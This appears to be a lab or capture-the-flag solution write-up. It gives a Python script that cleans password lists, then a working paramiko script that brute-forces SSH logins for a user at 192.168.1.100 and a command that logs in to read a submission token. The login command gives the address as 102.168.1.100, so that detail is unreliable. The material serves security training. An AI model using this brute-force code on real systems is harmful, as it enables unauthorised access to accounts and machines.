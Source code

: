 # Dirty Work Solution

### Part 1 - Analysis

Write the following script and run it three times, each time with a different password list as an argument.

```python
#!/usr/bin/python3

import argparse
import sys

def scrubList( wordList ):
    finalList = {}

    for word in wordList:
        #print( "Starting with: ", word )
        word = word.replace( '0', 'o' )
        word = word.replace( '1', 'l' )
        word = word.replace( '2', 'z' )
        word = word.replace( '3', 'e' )
        word = word.replace( '4', 'a' )
        word = word.replace( '5', 's' )
        word = word.replace( '7', 't' )
        word = word.replace( '8', 'b' )
        word = word.replace( '9', 'g' )
        fixedWord = ""
        for i in word:
            i = i.lower()
            if i in "abcdefghijklmnopqrstuvwxyz":
                fixedWord = fixedWord + i
        fixedWord = fixedWord.capitalize()
        if fixedWord in finalList:
            finalList[fixedWord] = finalList[fixedWord] + 1
        else:
            finalList[fixedWord] = 1
    return finalList

def main():
    print( "Sanitizing list." )
    filename = sys.argv[1]
    items = []
    f = open( filename, 'r' )
    print( "Opening", filename )
    for line in f:
        items.append( line.strip() )
    print( "Done reading." )
    f.close()

    # This is where the magic happens
    finalList = scrubList( items )

    print( finalList )

if __name__ == "__main__":
    if len( sys.argv ) != 2:
        print( "Bad usage. Must provide file name." )
    else:
        main()
```

The output will list words and appearance frequency. Write down all nine words (three from each category) that appear only once.

## **NOTE:** The following steps can only be performed in the hosted environment. 

### Part 2 - Attack

Write the following script to brute force the remote SSH system's password.

```python
#!/usr/bin/python3

import paramiko, sys, os, socket

global host, username, line

host = '192.168.1.100'
username = 'kowalski'

def ssh_connect( password, code = 0 ):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy( paramiko.AutoAddPolicy() )

    try:
        ssh.connect( host, port=22, username=username, password=password )
    except paramiko.AuthenticationException:
        code = 1
    except socket.error:
        code = 2

    ssh.close()
    return code

def main():
    words = []
    a = ('','','')
    b = ('','','')
    c = ('','','')

    for i in a:
        for j in b:
            for k in c:
                words.append( ''.join( ( i, j, k ) ) )
                words.append( ''.join( ( i, k, j ) ) )
                words.append( ''.join( ( j, i, k ) ) )
                words.append( ''.join( ( j, k, i ) ) )
                words.append( ''.join( ( k, j, i ) ) )
                words.append( ''.join( ( k, i, j ) ) )

    attempt = 0
    for word in words:
        print( attempt, "Trying:", word )
        attempt = attempt + 1
        if ssh_connect( word ) == 0:
            print( word )
            quit()

if __name__ == "__main__":
    main()
```

For variables a, b, and c, fill in the nine empty strings with the words from Part 1. Keep themes together: All poets in one tuple, all elements in another, and all constellations in the last. Run the script. It may take a few minutes. When it finds the password, it will print it to the terminal and then exit.

### Part 3 - Submission

Use the newly-discovered password to connect to the remote machine:

```ssh -l kowalski 102.168.1.100```

Then look at the contents of submission.txt to find the submission token. Type it into the gamespace page and submit.

```cat ~/submission.txt```

